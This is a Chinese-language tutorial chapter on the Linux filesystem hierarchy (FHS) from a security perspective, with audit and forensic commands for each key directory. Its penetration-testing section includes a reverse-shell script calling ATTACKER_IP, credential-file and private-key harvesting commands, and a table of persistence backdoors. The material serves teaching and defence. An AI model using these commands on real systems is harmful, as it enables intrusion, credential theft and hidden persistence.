

## 三、文件系统层次标准（FHS）

### 3.1 FHS 概述与历史

#### 3.1.1 什么是 FHS

FHS（Filesystem Hierarchy Standard，文件系统层次标准）是 Linux 基金会维护的一份规范文档，定义了操作系统中目录结构、目录用途以及各目录中应包含哪些文件。FHS 的目标是确保所有 Linux 发行版遵循统一的目录布局，使软件开发者、系统管理员和用户能够在不同发行版之间无缝切换。

FHS 不是一个强制性的技术实现，而是一份共识性规范。大多数主流发行版（Debian、Ubuntu、RHEL、Fedora、SUSE、Arch）都遵循 FHS，但各发行版在细节实现上存在差异。

#### 3.1.2 版本演变

| 版本 | 发布时间 | 主要变更 |
|------|----------|----------|
| FHS 1.0 | 1994年 | 首次标准化，源自 FSSTND（Filesystem Standard） |
| FHS 2.0 | 1997年 | 引入 `/proc` 虚拟文件系统、规范化 `/mnt` 和 `/media` |
| FHS 2.1 | 2000年 | 增加 `/selinux`、细化 `/srv` 描述 |
| FHS 2.3 | 2004年 | 增加 `/sys`、完善设备文件规范 |
| FHS 3.0 | 2015年 | 至今最新版本，承认 `/usr` 合并趋势、增加 `/run` 目录 |

FHS 3.0 的正式文档可在 [Linux Foundation](https://refspecs.linuxfoundation.org/fhs.shtml) 获取。

#### 3.1.3 为什么安全从业者必须掌握 FHS

从安全角度看，FHS 的意义远超"知道文件放在哪"：

1. **入侵检测基线**：掌握正常目录结构是识别异常文件和后门的前提。攻击者经常在非常规目录（如 `/dev/shm/`、`/tmp/`）植入恶意文件，熟悉 FHS 能帮助你快速定位这些异常。

2. **权限审计核心**：FHS 明确了每个目录应有的属主、权限和用途。`/etc/shadow` 应该是 `root:shadow 640`，如果变成 `777`，那一定是安全事件。

3. **横向移动路径**：攻击者利用已知路径读取敏感配置（`/etc/passwd`）、提取凭证（`/etc/shadow`）、获取进程信息（`/proc/`），FHS 就是他们的地图。

4. **提权关键路径**：SUID 二进制文件、sudoers 配置、cron 任务等提权向量全部分布在 FHS 定义的标准路径中。

5. **取证分析框架**：数字取证的第一步就是按 FHS 系统性地检查每个关键目录，寻找时间线异常、隐藏文件和未授权修改。



### 3.2 根目录（/）与完整目录树

Linux 采用单一目录树结构，所有文件和设备都挂载在根目录 `/` 下。这与 Windows 的多盘符（`C:\`、`D:\`）体系有本质区别。

#### 3.2.1 完整目录树概览

```text
/
├── bin/        → 基本用户命令（可能是指向 /usr/bin 的符号链接）
├── sbin/       → 基本系统管理命令（可能是指向 /usr/sbin 的符号链接）
├── lib/        → 基本共享库（可能是指向 /usr/lib 的符号链接）
├── lib64/      → 64位平台的基本库（可能是指向 /usr/lib64 的符号链接）
├── etc/        → 系统配置文件（层次结构配置，不可变）
├── home/       → 普通用户主目录
├── root/       → root 用户的主目录
├── usr/        → 用户空间程序和数据（二级只读层级）
│   ├── bin/    → 大多数用户命令
│   ├── sbin/   → 大多数系统管理命令
│   ├── lib/    → 库文件
│   ├── lib32/  → 32位兼容库
│   ├── lib64/  → 64位库
│   ├── libexec/→ 不直接由用户调用的可执行程序
│   ├── include/→ C/C++ 头文件
│   ├── share/  → 架构无关的共享数据
│   │   ├── man/   → 手册页
│   │   ├── doc/   → 文档
│   │   ├── locale/→ 国际化数据
│   │   └── zoneinfo/→ 时区数据
│   ├── local/  → 管理员本地安装的软件
│   │   ├── bin/
│   │   ├── sbin/
│   │   ├── lib/
│   │   ├── etc/
│   │   └── share/
│   └── src/    → 内核源码和软件源码
├── var/        → 可变数据（运行时生成的数据）
│   ├── log/    → 系统和服务日志
│   ├── run/    → 运行时数据（PID文件、套接字），已迁移至 /run
│   ├── tmp/    → 重启间保留的临时文件
│   ├── spool/  → 邮件队列、打印队列、cron 队列
│   │   ├── cron/
│   │   ├── mail/
│   │   └── anacron/
│   ├── cache/  → 应用缓存数据
│   ├── lib/    → 可变状态数据（数据库、包管理器状态）
│   └── opt/    → /opt 下软件的可变数据
├── tmp/        → 全局临时文件（重启后通常清除）
├── opt/        → 可选的第三方应用软件包
├── dev/        → 设备文件
├── proc/       → 内核与进程的虚拟文件系统
├── sys/        → 内核对象模型的虚拟文件系统
├── boot/       → 引导加载器文件和内核映像
├── mnt/        → 临时文件系统挂载点
├── media/      → 可移动设备挂载点
├── srv/        → 服务提供的数据目录
├── run/        → 运行时数据（tmpfs，重启清空）
├── lost+found/ → fsck 恢复的孤立文件（仅 ext2/3/4）
└── snap/       → Snap 包挂载点（Ubuntu 特有）
```

#### 3.2.2 `/usr` 合并（UsrMerge）

现代 Linux 发行版正在推进 `/usr` 合并：将 `/bin`、`/sbin`、`/lib` 变为指向 `/usr/bin`、`/usr/sbin`、`/usr/lib` 的符号链接。这不是简单的目录重命名，而是一次底层架构变革：

| 合并前 | 合并后 | 意义 |
|--------|--------|------|
| `/bin/bash` | `/usr/bin/bash` | `/bin` 成为指向 `/usr/bin` 的符号链接 |
| `/sbin/iptables` | `/usr/sbin/iptables` | `/sbin` 成为指向 `/usr/sbin` 的符号链接 |
| `/lib/libc.so` | `/usr/lib/libc.so` | `/lib` 成为指向 `/usr/lib` 的符号链接 |

已合并的发行版：Ubuntu 20.04+、Debian 12+、Fedora 17+、Arch Linux、openSUSE Tumbleweed。

安全影响：编写脚本时不要硬编码 `/bin/` 或 `/sbin/` 前缀，应使用 `which` 或 `command -v` 定位命令。入侵检测中，注意区分真实二进制文件和符号链接——攻击者可能用实际文件替换符号链接来隐藏恶意二进制。

### 3.3 核心目录详解（安全视角）

#### 3.3.1 `/etc/` — 系统配置中枢

`/etc/` 是系统运行的核心配置目录，也是安全审计的第一重点。该目录名源自 "et cetera"（等等），在早期 Unix 中用于存放不属于其他目录的零散文件，后来逐渐成为系统配置的标准位置。

**用户与认证相关：**

| 文件 | 用途 | 安全要点 |
|------|------|----------|
| `/etc/passwd` | 用户账户信息（用户名:密码占位:UID:GID:注释:主目录:Shell） | 全局可读；密码哈希已迁移至 shadow |
| `/etc/shadow` | 密码哈希、过期策略 | 权限应为 `root:shadow 640`；哈希格式 `$id$salt$hash` |
| `/etc/group` | 组定义和组成员 | GID 映射，sudo 组成员可提权 |
| `/etc/gshadow` | 组密码和组管理员 | 配合 group 使用，权限应为 `root:shadow 640` |
| `/etc/sudoers` | sudo 权限规则 | 应使用 `visudo` 编辑；`NOPASSWD` 是高风险配置 |
| `/etc/sudoers.d/` | sudo 规则的模块化扩展 | 攻击者可能在此添加提权规则 |
| `/etc/login.defs` | 登录默认配置 | UID 范围、密码策略、失败延迟等 |
| `/etc/pam.d/` | PAM 认证模块配置 | 劫持 PAM 是高级持久化手段 |

**网络配置相关：**

| 文件 | 用途 | 安全要点 |
|------|------|----------|
| `/etc/hosts` | 本地 DNS 映射 | 攻击者可修改实现域名劫持 |
| `/etc/resolv.conf` | DNS 服务器配置 | 指向恶意 DNS 可实现流量劫持 |
| `/etc/hostname` | 主机名 | 识别系统用途的线索 |
| `/etc/network/interfaces` | Debian 系网络接口配置 | 包含 IP、网关等关键信息 |
| `/etc/sysconfig/network-scripts/` | RHEL 系网络配置 | 含接口配置和路由信息 |
| `/etc/hosts.allow`、`/etc/hosts.deny` | TCP Wrappers 访问控制 | 经典的网络层访问控制机制 |
| `/etc/ssh/sshd_config` | SSH 服务端配置 | `PermitRootLogin`、`PasswordAuthentication`、端口等 |
| `/etc/ssh/ssh_host_*` | SSH 主机密钥 | 泄露可导致中间人攻击 |

**服务与计划任务：**

| 文件 | 用途 | 安全要点 |
|------|------|----------|
| `/etc/crontab` | 系统级 cron 任务 | `cron.d/`、`cron.daily/` 等需重点检查 |
| `/var/spool/cron/crontabs/` | 用户级 cron 任务 | 每个用户的定时任务 |
| `/etc/systemd/system/` | systemd 系统服务单元 | 攻击者可添加自启动服务实现持久化 |
| `/etc/init.d/` | SysV init 启动脚本 | 传统初始化系统，仍被部分服务使用 |
| `/etc/fstab` | 文件系统挂载表 | 暴露所有分区和挂载点 |
| `/etc/os-release` | 发行版标识 | 快速确认系统版本 |

**安全审计 `/etc/` 的关键命令：**

```bash
# 查找最近 24 小时内被修改的配置文件
find /etc -type f -mtime -1 -ls

# 查找非 root 所有的配置文件（异常信号）
find /etc -not -user root -ls

# 查找权限过于宽松的配置文件
find /etc -type f -perm -o+w -ls

# 查找所有 SUID/SGID 文件
find /etc -perm /6000 -ls

# 列出 /etc 目录的 RPM/DEB 归属（验证文件完整性）
rpm -Vf /etc/passwd        # RHEL 系
debsums -c                 # Debian 系
```

#### 3.3.2 `/var/` — 可变数据与日志

`/var/` 存放系统运行过程中产生的可变数据。从安全角度看，`/var/log/` 是日志分析和入侵检测的核心战场。

**日志目录 `/var/log/` 详解：**

| 日志文件 | 用途 | 分布 |
|----------|------|------|
| `/var/log/auth.log` | 认证事件（登录、sudo、su） | Debian/Ubuntu |
| `/var/log/secure` | 认证事件 | RHEL/CentOS/Fedora |
| `/var/log/syslog` | 系统通用日志 | Debian/Ubuntu |
| `/var/log/messages` | 系统通用日志 | RHEL/CentOS |
| `/var/log/kern.log` | 内核日志 | Debian 系 |
| `/var/log/dmesg` | 启动时内核消息 | 大多数发行版 |
| `/var/log/boot.log` | 启动过程日志 | RHEL 系 |
| `/var/log/cron` | cron 执行日志 | RHEL 系 |
| `/var/log/lastlog` | 最后登录信息（二进制） | 所有发行版 |
| `/var/log/wtmp` | 登录/注销记录（二进制） | 所有发行版 |
| `/var/log/btmp` | 失败登录记录（二进制） | 所有发行版 |
| `/var/log/faillog` | 登录失败记录 | Debian 系 |
| `/var/log/apache2/` | Apache Web 服务器日志 | Debian 系 |
| `/var/log/httpd/` | Apache Web 服务器日志 | RHEL 系 |
| `/var/log/nginx/` | Nginx Web 服务器日志 | 所有发行版 |
| `/var/log/mysql/` | MySQL/MariaDB 数据库日志 | 所有发行版 |
| `/var/log/audit/` | SELinux 审计日志 | 启用 SELinux 的系统 |
| `/var/log/journal/` | systemd 日志持久化存储 | 使用 journald 的系统 |

```bash
# 查看认证日志中的失败登录
grep "Failed password" /var/log/auth.log | tail -20

# 统计 SSH 暴力破解尝试（按 IP 排名）
grep "Failed password" /var/log/auth.log | \
  awk '{print $(NF-3)}' | sort | uniq -c | sort -rn | head -10

# 查看 sudo 使用记录
grep "sudo:" /var/log/auth.log

# 使用 journalctl 查询 systemd 日志
journalctl -u sshd --since "1 hour ago"
journalctl _UID=0 --since today    # root 执行的所有操作
```

**其他重要 `/var/` 子目录：**

- **`/var/spool/cron/`**：用户级 cron 任务，检查是否存在未授权的定时任务
- **`/var/spool/mail/`**：本地邮件队列，可能包含 cron 任务输出的敏感信息
- **`/var/tmp/`**：跨重启保留的临时文件，攻击者常在此存放持久化文件
- **`/var/lib/`**：应用状态数据（数据库文件、包管理器状态）
- **`/var/cache/`**：缓存数据，可安全清理但可能影响性能

#### 3.3.3 `/proc/` — 进程与内核信息虚拟文件系统

`/proc/` 不是一个真实存在的目录——它是内核在内存中动态生成的虚拟文件系统，为用户空间提供内核内部数据结构的接口。每个正在运行的进程在 `/proc/` 下都有一个以 PID 命名的子目录。

**进程级信息（`/proc/[PID]/`）：**

| 路径 | 内容 | 安全用途 |
|------|------|----------|
| `cmdline` | 进程启动命令行（以 `\0` 分隔） | 发现隐藏进程、恶意命令 |
| `environ` | 进程环境变量（以 `\0` 分隔） | 可能泄露 API Key、密码等敏感信息 |
| `exe` | 指向进程可执行文件的符号链接 | 发现进程实际运行的二进制位置 |
| `maps` | 内存映射（共享库、堆、栈） | 检测内存注入、LD_PRELOAD 劫持 |
| `smaps` | 详细的内存使用统计 | 分析进程内存占用 |
| `fd/` | 文件描述符目录 | 查看进程打开的所有文件和套接字 |
| `fdinfo/` | 文件描述符详细信息 | 含偏移量、标志等 |
| `status` | 进程状态摘要 | UID/GID、线程数、内存使用 |
| `cwd` | 指向进程工作目录的符号链接 | 了解进程运行上下文 |
| `root` | 指向进程根目录的符号链接 | 检测 chroot 环境 |
| `mountinfo` | 进程可见的挂载信息 | 容器环境中尤为重要 |
| `ns/` | 命名空间信息 | 容器逃逸分析 |

**系统级信息：**

| 路径 | 内容 | 安全用途 |
|------|------|----------|
| `/proc/net/tcp` | TCP 连接表 | 发现异常网络连接、后门连接 |
| `/proc/net/tcp6` | IPv6 TCP 连接表 | 同上，IPv6 版本 |
| `/proc/net/udp` | UDP 监听信息 | 发现隐藏的 UDP 后门 |
| `/proc/net/unix` | Unix 域套接字 | 发现本地提权相关的套接字 |
| `/proc/net/arp` | ARP 缓存表 | 检测 ARP 欺骗 |
| `/proc/cpuinfo` | CPU 信息 | 确定架构和核心数 |
| `/proc/meminfo` | 内存使用概况 | 性能分析和资源监控 |
| `/proc/version` | 内核版本 | 判断内核漏洞利用可行性 |
| `/proc/modules` | 已加载内核模块 | 检测恶意内核模块（rootkit） |
| `/proc/mounts` | 当前挂载的文件系统 | 发现异常挂载 |
| `/proc/filesystems` | 内核支持的文件系统 | 了解系统能力 |

**实战：通过 `/proc/` 发现隐藏进程**

```bash
# 方法一：对比 ps 输出和 /proc 目录
# 如果 /proc 下有 PID 目录但 ps 中看不到，说明进程被隐藏（可能是 rootkit）
ls /proc | grep -E '^[0-9]+$' | sort -n > /tmp/proc_pids.txt
ps -e -o pid= | sort -n > /tmp/ps_pids.txt
diff /tmp/proc_pids.txt /tmp/ps_pids.txt

# 方法二：通过 /proc/net/tcp 发现隐藏连接
# 将十六进制 IP 和端口转换为可读格式
cat /proc/net/tcp | awk '
  NR > 1 {
    split($2, local, ":")
    split($3, remote, ":")
    printf "%s:%d -> %s:%d  state=%s\n",
      strtonum("0x"substr(local[1],1,2))"."strtonum("0x"substr(local[1],3,2))"."strtonum("0x"substr(local[1],5,2))"."strtonum("0x"substr(local[1],7,2)),
      strtonum("0x"local[2]),
      strtonum("0x"substr(remote[1],1,2))"."strtonum("0x"substr(remote[1],3,2))"."strtonum("0x"substr(remote[1],5,2))"."strtonum("0x"substr(remote[1],7,2)),
      strtonum("0x"remote[2]),
      $4
  }'

# 方法三：读取进程的环境变量（可能泄露敏感信息）
cat /proc/$(pgrep -f "mysql")/environ | tr '\0' '\n' | grep -i pass

# 方法四：检查进程的文件描述符（发现打开的反向 shell）
ls -la /proc/$(pgrep -f "suspicious")/fd/
```

#### 3.3.4 `/sys/` — 内核对象模型虚拟文件系统

`/sys/`（sysfs）在 Linux 2.6 引入，是内核设备模型的用户空间接口，补充了 `/proc/` 的功能。它以层次结构暴露设备、驱动、总线和内核子系统信息。

**安全相关路径：**

| 路径 | 内容 | 安全用途 |
|------|------|----------|
| `/sys/class/net/` | 网络接口信息 | 检查网卡混杂模式 |
| `/sys/block/` | 块设备信息 | 磁盘和分区信息 |
| `/sys/module/` | 已加载内核模块参数 | 检查 rootkit 注入的模块 |
| `/sys/firmware/efi/` | UEFI 固件变量 | Secure Boot 状态 |
| `/sys/kernel/security/` | LSM（安全模块）信息 | SELinux/AppArmor 状态 |
| `/sys/fs/cgroup/` | 控制组资源限制 | 容器资源隔离信息 |
| `/sys/power/` | 电源管理状态 | 挂起/休眠状态 |

```bash
# 检查网卡是否处于混杂模式（可能是嗅探器运行的信号）
cat /sys/class/net/eth0/flags
# 值 0x1003 = 混杂模式开启

# 列出所有已加载内核模块
ls /sys/module/

# 检查 SELinux 状态
cat /sys/fs/selinux/enforce
# 1 = 强制模式, 0 = 宽容模式
```

#### 3.3.5 `/dev/` — 设备文件

`/dev/` 包含设备文件，Linux 将硬件设备和特殊功能抽象为文件接口。

**安全关键设备文件：**

| 设备 | 类型 | 用途与安全影响 |
|------|------|----------------|
| `/dev/null` | 字符设备 | 丢弃所有写入；读取返回 EOF。常用于静默输出 |
| `/dev/zero` | 字符设备 | 提供无限零字节；用于安全擦除磁盘 |
| `/dev/random` | 字符设备 | 阻塞式随机数生成器，熵池耗尽时会等待 |
| `/dev/urandom` | 字符设备 | 非阻塞式随机数生成器，密码学安全 |
| `/dev/ptmx` | 字符设备 | 伪终端主设备，创建 PTY 会话 |
| `/dev/pts/` | 字符设备 | 伪终端从设备目录 |
| `/dev/shm/` | tmpfs 挂载点 | 共享内存，**攻击者常用的文件暂存区** |
| `/dev/sda`、`/dev/vda` | 块设备 | 磁盘设备，可直接读写原始磁盘 |
| `/dev/sda1` 等 | 块设备 | 分区设备 |
| `/dev/tty` | 字符设备 | 当前终端 |
| `/dev/console` | 字符设备 | 系统控制台 |
| `/dev/kmem` | 字符设备 | 内核虚拟内存（如存在，是极高的安全风险） |
| `/dev/mem` | 字符设备 | 物理内存直接访问（需 CAP_SYS_RAWIO） |

```bash
# 安全擦除磁盘（比 rm 安全得多）
dd if=/dev/urandom of=/dev/sdX bs=1M status=progress

# 生成安全随机密码
head -c 32 /dev/urandom | base64 | head -c 24

# 检查 /dev/shm/ 中是否有可疑文件（攻击者常用位置）
ls -la /dev/shm/

# 检查是否有异常的块设备权限
ls -la /dev/sd* /dev/vd* 2>/dev/null
```

**`/dev/shm/` 的安全风险**：这是一个 tmpfs 挂载点，完全存在于内存中，重启后自动清除。攻击者经常利用它来：
- 存放恶意脚本和二进制文件（不落盘，逃避磁盘取证）
- 作为挖矿程序的存放位置
- 存放从内存中提取的凭证

#### 3.3.6 `/tmp/` 与 `/var/tmp/` — 临时文件

| 特性 | `/tmp/` | `/var/tmp/` |
|------|---------|-------------|
| 用途 | 短期临时文件 | 跨重启保留的临时文件 |
| 清理策略 | 重启时清除（通常） | 通常 30 天未访问后清除 |
| 大小限制 | tmpfs（内存中） | 通常在磁盘上 |
| 权限 | `1777`（sticky bit） | `1777`（sticky bit） |
| 安全风险 | 攻击者暂存文件 | 持久化藏匿点 |

**Sticky bit（粘滞位）** 的含义：目录设置了 sticky bit（权限末位为 `t` 或 `T`）后，即使用户对该目录有写权限，也只能删除自己创建的文件，不能删除其他用户的文件。`/tmp/` 和 `/var/tmp/` 必须设置此位，否则存在 symlink race 和任意文件删除的风险。

```bash
# 检查 sticky bit
ls -ld /tmp /var/tmp
# drwxrwxrwt → 最后的 t 表示 sticky bit 已设置

# 查找 /tmp 下的可执行文件（可能是恶意文件）
find /tmp -type f -executable -ls

# 查找 /tmp 下的隐藏文件
find /tmp -name ".*" -not -name "." -not -name ".." -ls

# 查找 /tmp 下设置了 SUID 的文件（极其可疑）
find /tmp -perm /4000 -ls
```

#### 3.3.7 `/boot/` — 引导加载器与内核

`/boot/` 存放系统启动所需的核心文件：

| 文件 | 用途 |
|------|------|
| `vmlinuz-*` 或 `vmlinuz` | 压缩的内核映像 |
| `initrd.img-*` 或 `initramfs-*` | 初始 RAM 磁盘/文件系统 |
| `grub/` 或 `grub2/` | GRUB 引导加载器配置 |
| `config-*` | 内核编译配置 |
| `System.map-*` | 内核符号表 |
| `efi/` | EFI 系统分区（UEFI 启动） |

安全要点：
- `/boot/grub/grub.cfg` 包含引导参数，篡改可禁用安全启动或注入 `init=/bin/sh` 实现单用户模式提权
- 内核文件的完整性校验是 Secure Boot 链的一部分
- 攻击者可能替换内核映像实现持久化

#### 3.3.8 `/usr/` — 用户空间二级层级

`/usr/` 不是 "user" 的缩写，而是 "Unix System Resources" 的缩写（尽管历史来源不同）。它是系统中最大的目录树，包含绝大多数用户空间程序和数据。

关键子目录：

| 子目录 | 用途 | 安全相关 |
|--------|------|----------|
| `/usr/bin/` | 大多数用户命令 | 确认命令未被替换 |
| `/usr/sbin/` | 大多数管理命令 | 配合 `rpm -V` 或 `debsums` 验证 |
| `/usr/lib/` | 共享库 | 检查 LD_PRELOAD 劫持 |
| `/usr/libexec/` | 内部可执行程序 | 服务的 helper 程序 |
| `/usr/include/` | C/C++ 头文件 | 开发环境完整性 |
| `/usr/share/` | 架构无关数据 | 手册、词典、时区等 |
| `/usr/local/` | 管理员本地安装 | 优先级高于系统目录，需审计 |
| `/usr/src/` | 内核源码 | DKMS 和内核模块编译 |

**`/usr/local/` 的安全意义**：该目录下的程序优先级通常高于系统默认路径。如果 `/usr/local/bin/python3` 被替换为恶意版本，而 `$PATH` 中 `/usr/local/bin` 优先于 `/usr/bin`，所有调用 `python3` 的脚本都会执行恶意代码。

#### 3.3.9 `/home/` 与 `/root/`

| 目录 | 用途 | 关键隐藏文件 |
|------|------|-------------|
| `/home/username/` | 普通用户主目录 | `.bashrc`、`.bash_history`、`.ssh/` |
| `/root/` | root 用户主目录 | 同上，且通常权限为 `700` |

**安全审计要点：**

```bash
# 查找所有用户目录中的 SSH 密钥
find /home -name "authorized_keys" -o -name "id_rsa" -o -name "id_ed25519" 2>/dev/null

# 查找所有用户的 bash 历史文件
find /home -name ".bash_history" -exec ls -la {} \;

# 查找含有密码或密钥的文件
grep -rl "password\|passwd\|secret\|api.key\|token" /home/ --include="*.conf" --include="*.txt" --include="*.yml" 2>/dev/null

# 查找隐藏的 SSH 反向隧道配置
find /home -name ".ssh" -exec ls -la {}/config \; 2>/dev/null
```

#### 3.3.10 `/opt/` — 可选第三方软件

`/opt/` 用于安装完整的第三方软件包，每个软件通常有独立的子目录（`/opt/software-name/`）。安全审计中需要关注：

- `/opt/` 下的软件通常不在包管理器的管控范围内，不会被系统更新覆盖
- 攻击者可能在 `/opt/` 下安装完整的后门工具包
- 一些合法的安全工具（如 Nessus、Burp Suite）也安装在此

```bash
# 列出 /opt 下的所有内容
find /opt -maxdepth 2 -ls

# 查找可执行文件
find /opt -type f -executable -ls

# 查找最近修改的文件
find /opt -type f -mtime -7 -ls
```

#### 3.3.11 `/srv/` — 服务数据

`/srv/` 用于存放系统提供的服务数据，如 Web 服务器的网站根目录、FTP 服务器的文件等。不同发行版使用习惯差异较大：

- Debian/Ubuntu：倾向使用 `/var/www/` 存放 Web 内容
- RHEL/CentOS：推荐使用 `/srv/www/`
- 实际中 `/var/www/` 更为常见

#### 3.3.12 `/run/` — 运行时数据

`/run/` 是 FHS 3.0 新增的标准目录，取代了以前分散在 `/var/run/`、`/var/lock/` 中的运行时数据。它是一个 tmpfs 文件系统，重启后清空。

| 子目录 | 内容 |
|--------|------|
| `/run/lock/` 或 `/var/lock/` | 锁文件 |
| `/run/user/<UID>/` | 用户级运行时目录（XDG 标准） |
| `/run/systemd/` | systemd 运行时数据 |
| `*.pid` 文件 | 各服务的 PID 文件 |

安全意义：PID 文件的位置对检测服务是否正常运行至关重要；`/run/user/0/` 中可能存放 root 的临时凭证。

### 3.4 文件类型深度解析

Linux 遵循"一切皆文件"的哲学，将所有系统资源抽象为文件接口。通过 `ls -l` 的第一个字符或 `stat` 命令可以识别文件类型。

#### 3.4.1 七种文件类型详解

| 类型标识 | 名称 | 说明 | 安全关注点 |
|----------|------|------|------------|
| `-` | 普通文件 | 文本、二进制、图片等 | 检查权限、属主、完整性 |
| `d` | 目录 | 包含文件和其他目录的容器 | 异常目录（隐藏、无意义命名） |
| `l` | 符号链接 | 指向其他文件的快捷方式 | 符号链接攻击（symlink race） |
| `b` | 块设备 | 以块为单位的随机访问设备 | 磁盘直接读写 |
| `c` | 字符设备 | 以字符为单位的流式设备 | `/dev/mem`、`/dev/kmem` |
| `p` | 命名管道（FIFO） | 进程间单向通信 | 数据窃取、中间人 |
| `s` | 套接字 | 进程间双向通信 | 本地服务通信劫持 |

#### 3.4.2 符号链接与硬链接

**符号链接（软链接）**：
- 独立的文件，存储目标路径字符串
- 可以跨文件系统
- 可以指向目录
- 目标删除后成为悬空链接（dangling link）

```bash
# 创建符号链接
ln -s /etc/passwd /tmp/passwd_link

# 查看符号链接指向
readlink -f /tmp/passwd_link
ls -la /tmp/passwd_link  # lrwxrwxrwx ... -> /etc/passwd
```

**硬链接**：
- 与目标共享同一个 inode
- 不能跨文件系统
- 不能指向目录（防止环路）
- 删除一个硬链接不影响其他链接

```bash
# 创建硬链接
ln /etc/passwd /tmp/passwd_hard

# 验证 inode 相同
ls -i /etc/passwd /tmp/passwd_hard
```

**安全风险：符号链接攻击（Symlink Race）**

攻击者利用 TOCTOU（Time-of-Check to Time-of-Use）漏洞，在程序检查文件权限和实际写入文件之间的时间窗口内，将文件替换为指向敏感文件的符号链接：

```bash
# 攻击示例（概念演示）
# 1. 程序预期写入 /tmp/output.txt
# 2. 攻击者在程序检查完权限后，将 /tmp/output.txt 替换为 -> /etc/shadow
# 3. 程序以 root 权限写入内容，实际上覆盖了 /etc/shadow

# 防御方法
# - 使用 O_NOFOLLOW 标志打开文件
# - 使用 mkstemp() 创建临时文件
# - 在粘滞位目录中操作
```

#### 3.4.3 套接字文件

Unix 域套接字用于同一主机上的进程间通信：

```bash
# 列出所有 Unix 域套接字
ls -la /var/run/*.sock /run/*.sock 2>/dev/null
find / -type s 2>/dev/null

# 通过 /proc/net/unix 查看所有活跃套接字
cat /proc/net/unix

# 常见套接字
# /var/run/docker.sock    → Docker API（root 访问 = 主机 root）
# /var/run/mysqld/mysql.sock → MySQL 本地连接
# /run/systemd/private    → systemd 私有通信
```

`/var/run/docker.sock` 是极高价值的攻击目标：拥有该文件的访问权限等同于 root 权限——可以通过它创建特权容器，挂载宿主机根目录。

### 3.5 关键目录的权限模型

FHS 规定了每个目录的推荐权限，理解这些权限是安全审计的基础。

| 目录 | 推荐权限 | 属主 | 说明 |
|------|----------|------|------|
| `/` | `755` | `root:root` | 根目录 |
| `/etc/` | `755` | `root:root` | 配置目录 |
| `/etc/shadow` | `640` | `root:shadow` | 密码哈希 |
| `/boot/` | `755` | `root:root` | 引导文件 |
| `/tmp/` | `1777` | `root:root` | 全局临时，sticky bit |
| `/var/tmp/` | `1777` | `root:root` | 跨重启临时，sticky bit |
| `/home/` | `755` | `root:root` | 用户主目录父目录 |
| `/home/user/` | `700` 或 `750` | `user:user` | 用户私人目录 |
| `/root/` | `700` | `root:root` | root 主目录 |
| `/var/log/` | `755` | `root:root` | 日志目录 |

```bash
# 完整的权限审计脚本
#!/bin/bash
echo "=== FHS 权限审计 ==="

# 检查关键目录权限
for dir in /etc /tmp /var/tmp /home /root /boot /var/log; do
  if [ -d "$dir" ]; then
    perms=$(stat -c '%a %U:%G' "$dir")
    echo "[目录] $dir → $perms"
  fi
done

# 检查关键文件权限
for file in /etc/passwd /etc/shadow /etc/group /etc/gshadow /etc/sudoers; do
  if [ -f "$file" ]; then
    perms=$(stat -c '%a %U:%G' "$file")
    echo "[文件] $file → $perms"
  fi
done

# 检查 SUID/SGID 文件（不在标准位置的需要特别关注）
echo ""
echo "=== 非标准位置的 SUID 文件 ==="
find / -perm /4000 -not -path "/usr/*" -not -path "/snap/*" -ls 2>/dev/null
```

### 3.6 不同发行版的 FHS 差异

虽然 FHS 是统一标准，但不同发行版家族在实践中存在显著差异：

| 方面 | Debian/Ubuntu | RHEL/CentOS/Fedora | Arch Linux |
|------|---------------|---------------------|------------|
| `/usr` 合并 | 2020 年完成 | 2012 年完成（Fedora 17） | 2013 年完成 |
| 网络配置 | `/etc/network/interfaces` 或 `netplan` | `/etc/sysconfig/network-scripts/` 或 `nmcli` | `/etc/netctl/` 或 `systemd-networkd` |
| 日志 | `/var/log/auth.log`、`/var/log/syslog` | `/var/log/secure`、`/var/log/messages` | systemd journal 为主 |
| Web 服务默认目录 | `/var/www/html/` | `/var/www/html/` | 取决于包 |
| 包管理器缓存 | `/var/cache/apt/` | `/var/cache/yum/` 或 `/var/cache/dnf/` | `/var/cache/pacman/` |
| 防火墙规则 | `/etc/ufw/` | `/etc/firewalld/` | 无默认 |
| SELinux | AppArmor（`/etc/apparmor.d/`） | SELinux（`/etc/selinux/`） | 无默认 |

### 3.7 FHS 在渗透测试中的应用

#### 3.7.1 信息收集阶段

掌握 FHS 能帮助渗透测试人员快速定位高价值目标：

```bash
# 快速收集系统信息
cat /etc/os-release          # 发行版版本
cat /proc/version            # 内核版本
cat /etc/hostname            # 主机名

# 收集用户信息
cat /etc/passwd | grep -v nologin | grep -v false  # 可登录用户
cat /etc/group               # 组信息

# 收集网络信息
cat /etc/hosts               # 本地 DNS 映射
cat /etc/resolv.conf         # DNS 配置

# 收集服务信息
cat /etc/crontab             # 定时任务
ls /etc/cron.d/              # 额外的 cron 任务
ls /etc/systemd/system/      # 自定义服务

# 收集凭证
cat /etc/shadow              # 需要 root 权限
find / -name "*.pem" -o -name "*.key" -o -name "id_rsa" 2>/dev/null
```

#### 3.7.2 后渗透阶段

```bash
# 利用 /proc/ 发现进程信息
ls /proc/*/cmdline | while read f; do
  echo "=== $(dirname $f) ==="
  cat "$f" 2>/dev/null | tr '\0' ' '
  echo
done

# 检查 sudo 配置寻找提权路径
cat /etc/sudoers
ls /etc/sudoers.d/

# 查找 SUID 文件（提权向量）
find / -perm /4000 -type f 2>/dev/null

# 查找能力（capabilities）
getcap -r / 2>/dev/null

# 利用 /dev/shm/ 存放临时文件
echo '#!/bin/bash' > /dev/shm/rev.sh
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /dev/shm/rev.sh
chmod +x /dev/shm/rev.sh
```

#### 3.7.3 隐蔽持久化

攻击者利用 FHS 的复杂性实现隐蔽持久化：

| 技术 | 路径 | 隐蔽性 |
|------|------|--------|
| Cron 后门 | `/etc/cron.d/` 或 `/var/spool/cron/crontabs/` | 中等 |
| Systemd 服务 | `/etc/systemd/system/` | 中等 |
| PAM 后门 | `/etc/pam.d/` | 高 |
| LD_PRELOAD 劫持 | `/etc/ld.so.preload` | 高 |
| `/usr/local/` 替换 | `/usr/local/bin/` | 中等 |
| `/dev/shm/` 文件 | `/dev/shm/` | 低（重启清除） |
